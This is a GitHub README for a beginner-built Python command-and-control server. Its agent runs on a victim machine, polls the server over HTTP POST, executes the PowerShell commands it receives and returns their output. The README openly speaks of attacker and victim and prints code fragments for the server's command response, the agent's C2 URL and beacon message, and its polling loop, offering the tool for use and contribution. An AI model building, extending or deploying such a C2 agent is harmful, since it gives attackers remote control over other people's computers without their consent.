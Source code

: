 # pyc2-c2overPOSTresponse

This project is still under development. This is a simple C2 server that allows you to run Powershell commands. 
I am still a n33b at this but I believe that I will get better through help and suggestions from the community : ) 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

## Installation

Download the .py files and run them. 

## Usage

For now you can only ran a command at a time. Open server.py and enter the command you want to be in the http response as shown below

``` 
        response_string = "whoami"

        # Set the response headers
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.send_header("Content-Length", len(response_string))
        self.end_headers()

        #send response string 
        self.wfile.write(response_string.encode('utf-8'))
```

Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL 
    # This string will be sent to C2 to verify it's alive and return output of a command ran
    message_body = "ALIVE, Command Response: {}".format(output)
```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
if command_to_run:
            output = run_powershell_command(command_to_run)     
        time.sleep(10)  
        count =+ 1
```

## Improvement Plan

1. Create a mechanism that lets the attacker enter commands before the next request 

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
